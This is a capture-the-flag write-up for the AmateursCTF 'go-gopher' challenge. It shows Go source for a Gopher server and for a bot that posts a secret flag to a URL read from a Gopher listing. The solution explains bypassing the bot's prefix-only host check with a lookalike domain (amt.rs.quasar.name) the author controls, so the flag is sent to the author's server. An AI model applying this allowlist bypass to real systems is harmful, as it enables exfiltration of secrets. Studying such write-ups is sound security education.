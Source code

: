 # go-gopher

## problem

main.go
```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

func index(w gopher.ResponseWriter, r *gopher.Request) {
	w.WriteInfo("Welcome to the flag submitter!")
	w.WriteInfo("Please submit all your flags!")
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/submit/user",
		Description: "Submit flags here!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:https://ctf.amateurs.team/",
		Description: "Get me more flags lackeys!!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/",
		Description: "Nice gopher proxy",
		Host:        "gopher.floodgap.com",
		Port:        70,
	})
}

func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}

func main() {
	mux := gopher.NewServeMux()

	mux.HandleFunc("/", index)
	mux.HandleFunc("/submit/", submit)

	log.Fatal(gopher.ListenAndServe("0.0.0.0:7000", mux))
}
```

bot.go
```py
package main

import (
	"bytes"
	"fmt"
	"log"
	"net/http"
	"net/url"
	"os"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

var flag = []byte{}

func main() {
	content, err := os.ReadFile("flag.txt")
	if err != nil {
		log.Fatal(err)
	}
	flag = content

	http.HandleFunc("/submit", Submit)
	http.HandleFunc("/", Index)
	if err := http.ListenAndServe(":8080", nil); err != nil {
		log.Fatal(err)
	}
}

func Index(w http.ResponseWriter, r *http.Request) {
	http.ServeFile(w, r, "index.html")
}

func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || !strings.HasPrefix(u.Host, "amt.rs") {
		w.Write([]byte("Invalid url"))
		return
	}

	w.Write([]byte(Visit(r.Form.Get("url"))))
}

func Visit(url string) string {
	fmt.Println(url)
	res, err := gopher.Get(url)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}
	h, _ := res.Dir.ToText()
	fmt.Println(string(h))

	url, _ = strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(url)
	_, err = http.Post(url, "text/plain", bytes.NewBuffer(flag))

	if err != nil {
		return "Failed to make request"
	}

	return "Successful visit"
}
```
## solution

here, we can see that a website is created by the bot to visit a gopher server and then send a post request with the flag in it.

the main idea here, is that `strings.HasPrefix(u.Host, "amt.rs")` doesn't really work because we could have say `amt.rs.quasar.name` and totally bypass it

you had to buy a domain name for this one to get the amt.rs fourth and third level domains, which made me like the challenge slightly less. luckily i already had a domain name to use

anyways, i set up an http server using [this](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7), and just ran the main.go server on my remote server as well

it took me a while to set up, but i was able to get the flag by sending `gopher://amt.rs.quasar.name/1/submit/user` to the bot, 
and changing the main.go file on my remote server to have `quasar.name` instead of `error.host`.

edit: someone told me it's possible to use the solution for [gophers-revenge](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/gophers-revenge) for this, but doesn't that defeat the entire point of having a second challenge??????
